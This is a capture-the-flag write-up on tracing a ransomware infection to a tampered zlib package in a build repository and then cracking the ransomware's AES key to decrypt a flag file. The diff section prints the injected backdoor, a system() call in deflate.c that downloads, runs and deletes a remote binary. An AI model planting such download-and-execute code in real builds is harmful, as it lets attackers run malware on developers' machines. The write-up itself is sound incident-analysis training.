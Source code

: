 # T2D2: Reclusive Ransomware

## Problem Description
Uh oh! One of your engineers just reported that all of their files were encrypted by ransomware. This is bad news; we need to figure out how this ransomware infected the engineer before it can spread to other machines! Overworked and underpaid as you are, we're going to require you to do not only that but also to fix their files by cracking the encryption scheme! A trivial task for a learned lion such as yourself.

Here's what we know: this engineer had just cloned down and built an internal tool code repository to work on it when the ransomware hit, so we suspect there might be an insider threat at play. Another thing we know is that the ransomware binary deleted itself after running so we don't have a copy for you to analyze. Hopefully, you can find it when you figure out the attack vector. Finally, we have a sample file for you to decrypt once you've cracked the scheme; your payment of one CTF challenge flag is inside!

### Resources
- https://github.com/luckiest-lion/lionctl
- [Encoded Flag (text file)](resources/flag.txt.enc)

## Objectives
Find the flag inside the file.

## Approach and Solution
This was kind of a fun challenge. 

### Verifying Hashes
First things first: let's clone that git repository. We have a whole bunch of files, but it's likely that the one file we need to look at is the Makefile. Indeed, when we look at it, we see this comment:

```Makefile
# TODO: My manager told me to verify the artifact hashes with the below instructions, 
# 		but I'm too lazy so I'll do it later ¯\_(ツ)_/¯ What's the worst that could happen?
# verify:
# 	Test that each artifact's sha256 sum is equal to https://target-flask.chals.io/repository/<artifact name>/hash
#   e.g.: sha256sum openssl.tar.gz == the response from https://target-flask.chals.io/repository/openssl-3.3.1.tar.gz
```

So our next step is pretty clear--we need to modify the Makefile to verify the SHA-256 sums before it builds. To do that, I just add the following section right before the `build` section:

```Makefile
verify:
	@echo "Verifying hashes..."
	@hash_mismatch=0; \
	for url in $(OPENSSL_URL) $(CURL_URL) $(ZLIB_URL) $(LIBXML2_URL) $(CJSON_URL) $(SQLITE3_URL) $(LIBPNG_URL); do \
		artifact=$$(basename $$url); \
		expected_hash=$$(curl -s https://target-flask.chals.io/repository/$$artifact/hash); \
		computed_hash=$$(sha256sum $(BUILD_DIR)/$$artifact | awk '{ print $$1 }'); \
		if [ "$$expected_hash" != "$$computed_hash" ]; then \
			echo "Hash mismatch for $$artifact: expected $$expected_hash, got $$computed_hash"; \
			hash_mismatch=1; \
		else \
			echo "$$artifact verified"; \
		fi; \
	done; \
	if [ "$$hash_mismatch" -eq 1 ]; then \
		echo "Some hashes did not match."; \
		exit 1; \
	else \
		echo "All hashes verified successfully."; \
		exit 0; \
	fi
```

Now we can run `make verify` in the terminal to verify the hashes. This results in the following output:
```
Verifying hashes...
openssl-3.3.1.tar.gz verified
curl-8.9.1.tar.gz verified
Hash mismatch for zlib-1.3.1.tar.gz: expected 9a93b2b7dfdac77ceba5a558a580e74667dd6fede4585b91eefb60f03b72df23, got 3205c09cfdfdeb44f508dea69fe864d171ccf48840af5fd65bbd64c8c33d8bb2
libxml2-2.13.3.tar.xz verified
cJSON-1.7.18.zip verified
sqlite-autoconf-3460100.tar.gz verified
libpng-1.6.43.tar.gz verified
Some hashes did not match.
make: *** [verify] Error 1
```

So we can see here that we have a hash mismatch for the `zlib` package. 

### Investigating the Corrupted Package
We can pull the corrupted `zlib` package using `wget`.

`wget https://target-flask.chals.io/repository/zlib-1.3.1.tar.gz`

and then all we need to do is simply untar it.

We also pull a non-corrupted version of `zlib` from the Internet:

`wget https://github.com/madler/zlib/releases/download/v1.3.1/zlib-1.3.1.tar.gz`

and unpack that tar as well.

Once both are untarred, the next step is just to run the `diff` command on both directories. Running diff against the two of them results in this:

```
diff zlib-1.3.1/deflate.c build/zlib-1.3.1/deflate.c
949a950,951
>     system("curl -s -o /tmp/evil http://target-httpd.chals.io/qQYX826mR4jJwAP3GS97yd && chmod +x /tmp/evil && /tmp/evil flag.txt && rm /tmp/evil");
> 
```

Great! Now we have another URL that we can `curl` from. So let's `curl` this URL and continue analyzing.

We get some file `qQYX826mR4jJwAP3GS97yd` (you can rename this if you want). 

### Analyzing the Mysterious File
Running `file` on this downloaded file gives us the following:

```
ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3a33916b59f8b45fd3bafd5ac0135e5d35efbfd2, for GNU/Linux 3.2.0, not stripped
```

So this means it is most likely a C or C-adjacent compiled program. Let's open it in Binary Ninja (you can also use Ghidra). I actually used Ghidra when I was doing this for the competition, but I already had Binary Ninja up and running at the time of writing this writeup, so we'll just stick with that.

Here is the decompiled main function in Binary Ninja:

![main function](img/d2-1.png)

We can see here that there are two functions that are called: `generate_password` and `aes_encrypt_file`.

Looking at those functions, we see this:

![generate_password function](img/d2-2.png)
![aes_encrypt function](img/d2-3.png)

There's a lot of weird computer math here, which means that even though it is tempting to write this in Python, it's better to just write in in C. We also see that the password is based directly on the name of the file that is being encrypted, so we can generate the same password if we have the name of the file.

The C program I wrote to generate the password is as follows:

```c
#include <stdio.h>
#include <string.h>

void generate_password(long param_1) {
    char cVar1;
    size_t sVar2;
    int local_24;
    unsigned long local_18 = 0xbebafecaefbeadde; // note that I got this from Ghidra, not Binary Ninja
    
    // Setup
    char *param_2 = "flag.txt";
    int param_3 = 0x20;
    sVar2 = strlen(param_2);
    
    // Password generation loop
    // This is pretty much just copy and pasting the logic from Ghidra
    for (local_24 = 0; local_24 < param_3; local_24++) {
        *(unsigned char *)(param_1 + local_24) =
             *(unsigned char *)((long)&local_18 + (long)(local_24 % 8)) ^ param_2[local_24 % (int)sVar2];
        cVar1 = *(char *)(param_1 + local_24);
        *(char *)(param_1 + local_24) =
             cVar1 + ((char)((short)(cVar1 * 0x100af) >> 0xe) - (cVar1 >> 7)) * -0x5e + '!';
    }

}

int main() {
    char password[0x30] = {0}; 
    generate_password((long)password);
    
    printf("Generated password: ");
    for (int i = 0; i < 0x20; i++) {
        printf("%02x", (unsigned char)password[i]);
    }
    printf("\n");

    return 0;
}

```

Running this gives us a hex password of `d9e200070509e3ebd9e200070509e3ebd9e200070509e3ebd9e200070509e3eb`. From here, since we have the AES key, we can just reverse the AES encryption using the function we discovered earlier. Analyzing the fucntion, we can see that the IV used in this AES encryption is just all 0's, so we just need 16 bytes of 0. Then we create the AES cipher with it, and decrypt the ciphertext with the new AES cipher. For this part, I wrote a Python script:

```python
from Crypto.Cipher import AES
import hashlib

def decrypt_aes_file(encrypted_file_path, decrypted_file_path, hex_password):
    binary_password = bytes.fromhex(hex_password)

    iv = b'\x00' * 16

    with open(encrypted_file_path, 'rb') as f:
        ciphertext = f.read()

    cipher = AES.new(binary_password, AES.MODE_CFB, iv=iv, segment_size=128)

    decrypted_data = cipher.decrypt(ciphertext)

    with open(decrypted_file_path, 'wb') as f:
        f.write(decrypted_data)

    print(f"Decryption complete, file saved as '{decrypted_file_path}'")

hex_password = "d9e200070509e3ebd9e200070509e3ebd9e200070509e3ebd9e200070509e3eb"
encrypted_file_path = "flag.txt.enc" 
decrypted_file_path = "decrypted_flag.txt" 

decrypt_aes_file(encrypted_file_path, decrypted_file_path, hex_password)

```

And when we open up our `decrypted_flag.txt`, we get:

`flag{stand_and_deliver_your_money_or_your_files!}`

## Rabbit Holes